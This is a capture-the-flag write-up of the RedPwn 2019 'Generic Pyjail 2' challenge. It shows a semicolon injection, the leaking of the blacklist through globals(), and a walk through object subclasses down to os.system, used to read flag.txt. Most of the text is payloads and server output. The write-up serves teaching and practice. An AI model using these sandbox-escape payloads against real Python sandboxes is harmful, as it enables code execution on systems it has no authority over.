 ```yaml
---
layout: posts
title:  Red Pwn 2019 - Generic Pyjail 2 (Misc)
date:   2019-08-12
categories: [CTFs, redpwn19]
---
```


[~$ cd ..](/ctfs/redpwn19/2019/08/12/index.html)

>genericpyjail2
>
>Written by: dns
>
>how unoriginal do you have to be to make two of these
>
>nc chall2.2019.redpwn.net 6007

The way we had to inject was here a little bit more difficult to find, compared to Generic Pyjail. The service prints what we send, but doesn't leak a lot of information:

```
wow! again, there's a file called flag.txt! insane!
0
now it's  0 !
x
now it's  x !
globals()
now it's  globals() !
'
now it's  ' !
Exception:  EOL while scanning string literal (<string>, line 1)
test
now it's  test !
Exception:  name 'test' is not defined
print(42)
now it's  print(42) !
Exception:  invalid syntax (<string>, line 1)
```

We can notice here that a variable `x` exists and that the output of the functions (such as `globals()`) are not displayed.
Because of the last line, one can guess that some stuff are already put in the command before our input. Closing the first command with a semi-colon was actually the trick:

```
0;print(42)
now it's  0;print(42) !
42
```

We can now print what we want, so let's leak some hints such as blacklisted words:

```
0;print(globals())
now it's  0;print(globals()) !
{'gone': ['open', 'file', 'execfile', 'compile', 'reload', '__import__', 'eval', 'input'], 'e': NameError("name 'os' is not defined",), '__builtins__': <module '__builtin__' (built-in)>, '__file__': 'jail2.py', '__package__': None, 'func': 'input', 'x': 0, '__name__': '__main__', '__doc__': None}
```

CTF experience played its role here, as we knew that we had to do deep objection inspection so as to find a reference to the `os` package. What we want here is to get the module `warnings` since the latter has a reference to interesting modules:

```
0;print(().__class__.__base__.__subclasses__())
now it's  0;print(().__class__.__base__.__subclasses__()) !
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

At index 59, a reference to `warnings.catch_warnings` can be found ! We knew that we had to find `linecache`, and then `os` from the latter. Accessing module's globals was the solution:

```
wow! again, there's a file called flag.txt! insane!
0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os))
now it's  0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os)) !
<module 'os' from '/usr/lib/python2.7/os.pyc'>
```

And finally

```
0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os).system("cat\x20flag.txt"))
now it's  0;print((().__class__.__base__.__subclasses__()[59].__repr__.im_func.func_globals["linecache"].os).system("cat\x20flag.txt")) !
flag{sub_sub_sub_references}
```

FLAG: **flag{sub_sub_sub_references}**

EOF
